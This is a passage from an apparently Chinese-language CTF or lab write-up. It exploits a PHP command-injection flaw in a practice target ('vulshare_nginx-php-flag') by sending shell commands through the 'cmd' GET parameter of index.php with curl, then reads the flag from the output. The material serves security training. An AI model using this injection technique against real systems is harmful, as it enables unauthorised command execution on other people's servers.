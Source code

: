 通过浏览器访问靶机提供的 Web 服务 `http://10.37.133.3:8630/`。

访问网站页面如下：
![1748016340512](image/第一层两靶标攻击与利用检测/1748016340512.png)

页面上直接给出了关键提示信息：`index.php?cmd=ls /tmp`。这强烈暗示了存在一个通过 `index.php` 的 `cmd` GET参数执行任意命令的漏洞。

#### 3. 漏洞分析与利用

靶标名称 `vulshare_nginx-php-flag` 和页面提示 `index.php?cmd=ls /tmp` 明确指出了这是一个基于 Nginx 和 PHP 的应用，并且存在命令注入漏洞，目标是找到一个 "flag"。

**利用方式：通过 `cmd` GET 参数执行命令**
页面提示已经给出了利用方法：`index.php` 文件接受一个名为 `cmd` 的 GET 参数，其值会被服务器执行。

* **验证初步命令执行**：
  根据页面提示，直接访问 `http://10.37.133.3:8630/index.php?cmd=ls%20/tmp` (注意 URL 编码空格为 `%20`)。

  ```bash
  curl "http://10.37.133.3:8630/index.php?cmd=ls%20/tmp"
  ```

  观察返回结果，确认 `/tmp` 目录下的内容

  返回结果为:

  ```
  index.php?cmd=ls /tmpflag-{bmha755c46b-7381-4beb-9495-c15d83956d7e}
  ```

  ![1748016675838](image/第一层两靶标攻击与利用检测/1748016675838.png)
